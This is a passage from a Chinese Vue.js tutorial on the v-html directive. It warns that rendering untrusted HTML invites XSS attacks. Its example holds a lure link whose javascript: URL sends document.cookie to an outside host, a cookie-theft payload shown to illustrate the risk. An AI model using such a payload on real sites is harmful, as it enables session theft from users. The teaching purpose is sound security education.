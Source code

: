 
效果：

![Vue核心-内置指令与自定义指令01.png](https://zhf-picture.oss-cn-qingdao.aliyuncs.com/my-img/Vue核心-内置指令与自定义指令01.png)

### 1.3 v-html指令

作用：向指定节点中渲染包含 html 结构的内容   

与插值语法的区别：  
+ v-html 会替换掉节点中所有的内容，`{{xxx}}` 则不会  
+ v-html 可以识别 html 结构   

严重注意 v-html 有安全性问题！！！  
+ 在网站上动态渲染任意 html 是非常危险的，容易导致 XSS 攻击  
+ 一定要在可信的内容上使用 v-html，永远不要用在用户提交的内容上！！！

例：

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>v-html指令</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <div>你好，{{name}}</div>
      <div v-html="str1"></div>
      <div v-html="str2"></div>
    </div>
    <script>
      Vue.config.productionTip = false
      new Vue({
        el: '#root',
        data: {
          name: 'zhf',
          str1: '<h3>你好呀！</h3>',
          str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        },
      })
    </script>
  </body>
</html>
```

我们在 cookie 中存放如下数据

![Vue核心-内置指令与自定义指令02.png](https://zhf-picture.oss-cn-qingdao.aliyuncs.com/my-img/Vue核心-内置指令与自定义指令02.png)
